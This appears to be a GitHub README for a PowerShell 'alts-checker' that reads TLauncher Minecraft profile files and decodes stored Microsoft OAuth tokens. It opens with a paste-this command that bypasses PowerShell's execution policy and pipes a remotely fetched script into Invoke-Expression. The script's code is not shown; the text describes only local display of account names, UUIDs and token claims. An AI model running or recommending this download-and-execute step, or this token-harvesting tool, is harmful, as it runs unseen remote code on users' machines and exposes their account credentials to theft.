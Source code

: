 - **powershell -Command "Set-ExecutionPolicy -Scope Process -ExecutionPolicy Bypass; Invoke-Expression (Invoke-RestMethod 'https://raw.githubusercontent.com/OnlyDehBest/alts-checker/main/alts-checker.ps1')"**

🔐 **PowerShell Script to Extract and Decode TLauncher Minecraft Accounts with Microsoft Tokens**

This PowerShell script retrieves Minecraft account information from TLauncher and user cache files, and optionally decodes Microsoft OAuth tokens to reveal token claims.

💡 **Functions Included**:
- Decode-Jwt
  - Accepts a JWT (JSON Web Token) as input.
  - Splits the token into header, payload, and signature.
  - Converts the Base64 URL-safe encoded payload into a readable UTF-8 JSON object.
  - Returns the decoded claims from the token.
- Get-TLauncherAccounts
  - Reads the TLauncher profile file located at $env:APPDATA\.minecraft\TlauncherProfiles.json.
  - Iterates through all stored accounts, displaying:
  - Display name
  - UUID
  - Account type
  - Whether a Microsoft token (accessToken or id_token) is present (shown with ✅ or ❌)
  - If a Microsoft token is found, it decodes and displays the JWT claims in a formatted table.
- Get-UserCacheAccounts
  - Searches recursively for usercache*.json files in the .minecraft folder.
  - Parses these files and displays any found account names and UUIDs.

📌 **Execution**:
At the end, both **Get-TLauncherAccounts** and **Get-UserCacheAccounts** are invoked, providing a complete overview of accounts stored locally by TLauncher, including Microsoft login info when available.

